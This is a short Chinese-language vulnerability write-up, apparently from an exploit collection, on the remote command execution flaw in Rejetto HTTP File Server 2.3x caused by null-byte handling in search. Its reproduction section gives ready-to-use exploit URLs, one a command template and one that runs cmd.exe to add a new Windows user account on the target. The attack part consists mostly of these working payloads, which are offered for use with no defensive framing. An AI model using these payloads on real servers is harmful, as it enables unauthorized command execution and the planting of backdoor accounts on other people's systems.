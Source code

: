 ```yaml
---
title: Hfs 远程命令执行漏洞
id: zhfly2966
---
```


# Hfs 远程命令执行漏洞

## 一、漏洞简介

Rejetto HTTP File Server 2.3c及之前版本中的parserLib.pas文件中的‘findMacroMarker’函数中存在安全漏洞，该漏洞源于parserLib.pas文件没有正确处理空字节。远程攻击者可借助搜索操作中的‘%00’序列利用该漏洞执行任意程序。

## 二、漏洞影响

2.3c以前的2.3x版本

## 三、复现过程

```
http://www.0-sec.org:8080/?search==%00{.exec|cmd.exe /c [Command-String].} 
```

```
http://www.0-sec.org:8080/?search==%00{.exec|cmd.exe /c net user test1234 1234 /add.} 
```